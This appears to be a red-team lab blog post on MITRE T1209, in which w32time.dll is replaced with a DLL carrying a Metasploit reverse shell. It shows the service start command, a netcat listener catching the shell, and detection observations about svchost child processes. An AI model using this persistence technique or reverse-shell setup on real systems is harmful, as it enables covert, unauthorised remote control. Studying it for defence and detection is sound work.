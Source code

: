 ```yaml
---
layout: post
title: "t1209 hijacking time providers"
date: 2024-06-18
categories: all_md_files
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1209-hijacking-time-providers/
---
```


---
layout: post
title: "t1209 hijacking time providers"
date: 2024-06-18
categories: persistence
tags: redteam, mitre killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /t1209-hijacking-time-providers/
---

---
description: Persistence
---

# Hijacking Time Providers

## Execution

Service w32time depends on the DLL specified in `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\W32Time\TimeProviders\`. 

If an attacker can replace the `w32time.dll` with his malicious DLL or modify the DllName value to point to his malicious binary, he can get that malicious code executed. 

In this lab, we will just swap out the `w32time.dll` with our own. It contains a metasploit reverse shell payload:

![](../../.gitbook/assets/time-registry.png)

Starting the w32time service:

```csharp
C:\Users\mantvydas\Start Menu\Programs\Startup>sc.exe start w32time

SERVICE_NAME: w32time
        TYPE               : 20  WIN32_SHARE_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 964
        FLAGS              :
```

Attacker receiving a reverse shell:

{% code title="attacker@local" %}
```csharp
root@~# nc -lvvp 443
listening on [any] 443 ...
10.0.0.2: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.2] 64634
```
{% endcode %}

## Observations

The shell is running as a child of svchost which is expected as this is where all the services originate from:

![](../../.gitbook/assets/time-ancestry.png)

Note that the code is running under the context of `LOCAL SERVICE`:

![](../../.gitbook/assets/time-context.png)

This time and time again shows that binaries running off of svchost.exe, especially if they are rundll32 and are making network connections, should be investigated further.

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1209" %}

@spotheplanet
